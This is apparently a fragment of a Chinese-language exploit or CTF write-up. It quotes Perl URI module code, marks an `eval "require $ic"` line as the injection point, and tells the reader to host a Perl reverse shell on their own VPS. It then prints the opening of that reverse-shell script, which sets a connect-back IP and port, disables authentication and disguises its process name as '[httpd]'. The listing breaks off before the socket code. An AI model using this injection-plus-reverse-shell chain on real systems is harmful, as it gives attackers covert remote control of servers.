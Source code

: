 ```perl

    no strict 'refs';
    # check we actually have one for the scheme:
    unless (@{"${ic}::ISA"}) {
        if (not exists $require_attempted{$ic}) {
            # Try to load it
            my $_old_error = $@;
           ###################################
            eval "require $ic"; #尝试包含并执行
           ###################################
            die $@ if $@ && $@ !~ /Can\'t locate.*in \@INC/;
            $@ = $_old_error;
        }
        return undef unless @{"${ic}::ISA"};
    }

    $ic->_init_implementor($scheme);
    $implements{$scheme} = $ic;
    $ic;
}
```
所以找一个perl反弹shell的程序放好在自己的VPS上, 代码:
```perl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell. Change these.
my $ip = '127.0.0.1';
my $port = 12345;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address. Denying access");
    cgiexit(0);
}
```